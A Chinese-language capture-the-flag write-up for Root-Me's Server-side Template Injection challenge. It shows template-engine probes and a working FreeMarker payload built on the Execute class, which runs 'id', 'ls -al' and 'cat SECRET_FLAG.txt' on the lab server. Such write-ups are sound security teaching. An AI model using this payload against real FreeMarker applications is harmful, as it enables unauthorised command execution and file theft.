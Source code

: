 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Server-side-Template-Injection)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/server-side-template-injection/)]

------


## 前置知识

SSTI (服务侧模板注入) 题型，此挑战要用到的相关知识可以参考以下文档：

- [服务端模板注入攻击 （SSTI）之浅析](https://www.freebuf.com/vuls/83999.html)
- [SSTI攻击分析](https://hellohxk.com/blog/ssti/)
- [FreeMarker执行系统命令](https://yq.aliyun.com/articles/519369)
- [freemarker学习笔记---assign标签](https://blog.csdn.net/yin767833376/article/details/51831262?utm_source=blogxgwz0)

------

## 试错

题目要求是读取文件【SECRET_FLAG.txt】的内容。

开启挑战后只有一个输入框，首先试试能不能 XXS ，输入一个探针 `<img src=0 />` ，发现原文回显，即被过滤了：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/01.png)

然后尝试直接访问 【[http://challenge01.root-me.org/web-serveur/ch41/SECRET_FLAG.txt](http://challenge01.root-me.org/web-serveur/ch41/SECRET_FLAG.txt)】，理所当然报错：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/02.png)

------

## SSTI 探针

既然这些方法都被封锁了，题目有提示是要用 SSTI 解题，还是不绕弯子实打实做吧~~

但是要使用 SSTI 攻击，首先需要知道这个页面使用了什么模板引擎。

在 [网上](https://www.freebuf.com/vuls/83999.html) 找到了 Burp Sutie 提供的一套 payload探针，用于快速确认模板引擎（其中绿色分支表示探针注入成功时的下一个步骤，红色表示注入失败时的下一个步骤）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/03.png)

根据流程按部就班做就可以了。首先输入探针 `${7*7}` ，发现 WEB 计算成了 `49` ，即注入成功：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/04.png)

继续输入下一个探针 `a{*comment*}b` ，这次原文回显，即注入失败：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/05.png)

继续输入下一个探针 `${"z".join("ab")}` ，这次直接返回异常，即注入失败。

从探针流程上看，我们测试得到的模板引擎是 `Unknown` 。。。

不过仔细观察返回的异常信息，可以看见信息 `freemarker` 。

从网上找到 freemarker 是属于 Java 语言的模板引擎，因此可以针对性进行注入。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/06.png)

------

## 构造 payload

由于题目目标很明确要我们读取文件【SECRET_FLAG.txt】的内容，因此很自然就想到最直接的方法就是使用 **系统命令** 读取这个文件，例如：`cat SECRET_FLAG.txt` 。

接下来只需要找到方法“如何通过 freemarker 调用系统命令”即可。

我稍微找了一下就看到了 [这篇文章](https://yq.aliyun.com/articles/519369) ，它提供的 payload 还是很简单的：

```
<#assign exp="freemarker.template.utility.Execute"?new()>
${exp("any system cmd")}
```

其中第一行的意思是：利用 `assign` 标签定义一个全局变量 `exp` ，这个全局变量是通过 `freemarker.template.utility.Execute` 类 `new` 出来的一个实例变量。而在 freemarker 中， `freemarker.template.utility.Execute` 类的功能是调用系统命令。

第二行的意思就更简单了：利用全局变量 `exp` 调用任意系统命令。

> 关于 freemarker 的 `assign` 标签的功能可以参考 [这篇文章](https://blog.csdn.net/yin767833376/article/details/51831262?utm_source=blogxgwz0) 。

我们可以通过一个简单的 Linux 系统命令 `id` 测试它是否起作用，构造 payload 如下（**去掉了换行**）：

`<#assign exp="freemarker.template.utility.Execute"?new()>${exp("id")}`

成功获取到了当前 Linux 用户的 id 信息。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/07.png)

------

## 完成挑战

于是可以开始解题了，首先查看一下 SECRET_FLAG.txt 文件在哪，构造 payload 如下：

`<#assign exp="freemarker.template.utility.Execute"?new()>${exp("ls -al")}`

很幸运地，这个文件就在当前目录：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/08.png)

最后我们构造 payload 读取这个文件：

`<#assign exp="freemarker.template.utility.Execute"?new()>${exp("cat SECRET_FLAG.txt")}`

得到 flag ，完成挑战：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B30%5D%20%5B30P%5D%20Server-side%20Template%20Injection/imgs/09.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
